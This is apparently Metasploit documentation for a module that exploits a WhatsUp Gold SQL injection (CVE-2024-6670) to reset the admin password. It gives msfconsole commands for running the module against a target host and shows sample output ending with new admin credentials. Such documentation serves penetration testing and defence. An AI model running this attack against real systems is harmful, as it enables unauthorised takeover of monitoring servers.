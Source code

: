 ## Vulnerable Application

This module exploits a SQL injection vulnerability in WhatsUp Gold < v24.0.0 (CVE-2024-6670), by changing the password of an existing user
(such as of the default `admin` account) to an attacker-controlled one.

## Testing

The software can be obtained from
[the vendor](https://cdn.ipswitch.com/nm/WhatsUpGold/23.1.3/WhatsUpGold-23.1.3-FullInstall.exe).

Installation instructions are available [here](https://docs.progress.com/bundle/whatsupgold-install-23-1/page/Prior-to-installation.html).

**Successfully tested on**

- WhatsUp Gold v23.1.3 on Windows 22H2
- WhatsUp Gold v23.1.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/admin/http/whatsup_gold_sqli 
msf6 auxiliary(admin/http/whatsup_gold_sqli) > set RHOSTS <IP>
msf6 auxiliary(admin/http/whatsup_gold_sqli) > run
```

This should update the password of the default `admin` account.

## Options

### USERNAME
The user of which to update the password (default: admin)

### PASSWORD
The new password for the user

## Scenarios

Running the exploit against WhatsUp Gold v23.1.3 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(admin/http/whatsup_gold_sqli) > run
[*] Running module against 192.168.217.143

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 23.1.3
[+] New password for admin was successfully set:
	admin:SzESLHhWxKyf
[+] Login at: https://192.168.217.143/NmConsole/#home
[*] Auxiliary module execution completed
```
